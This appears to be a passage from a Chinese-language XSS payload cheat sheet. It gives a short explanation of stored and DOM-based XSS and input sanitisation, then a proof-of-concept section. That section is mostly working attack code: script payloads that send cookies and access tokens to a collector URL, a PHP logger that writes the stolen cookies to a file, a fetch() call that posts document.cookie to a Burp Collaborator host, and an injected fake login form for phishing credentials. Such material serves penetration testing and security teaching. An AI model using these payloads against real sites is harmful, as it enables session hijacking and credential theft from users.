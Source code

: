 - **存储型XSS**：在存储型XSS攻击中，恶意代码存储在服务器上，并且每次访问易受攻击页面时都会执行。例如，攻击者可以在博客文章的评论中注入恶意代码。当其他用户查看博客文章时，恶意代码会在他们的浏览器中执行，允许攻击者执行各种操作。

- **基于DOM的XSS**：是一种当易受攻击的Web应用程序修改用户浏览器中的DOM（文档对象模型）时发生的XSS攻击。例如，当用户输入用于更新页面的HTML或JavaScript代码时可能发生这种情况。在基于DOM的XSS攻击中，恶意代码不会发送到服务器，而是直接在用户的浏览器中执行。这使得这些类型的攻击难以检测和防止，因为服务器没有恶意代码的记录。

为了防止XSS攻击，重要的是正确地验证和清理用户输入。这意味着确保所有输入符合必要的标准，并删除任何潜在危险的字符或代码。在呈现到浏览器之前，对用户输入的特殊字符进行转义也很重要，以防止浏览器将其解释为代码。

## 概念验证

在利用XSS漏洞时，展示一个完整的利用场景以导致账户接管或敏感数据泄露比简单地报告带有alert载荷的XSS更为有效。目标是捕获有价值的数据，例如支付信息、个人可识别信息（PII）、会话cookie或凭据。

### 数据抓取器

获取管理员cookie或敏感访问令牌，以下载荷会将其发送到受控页面。

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

将收集的数据写入文件。

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### CORS

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### UI欺骗

利用XSS来修改页面的HTML内容，显示伪造的登录表单。

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```
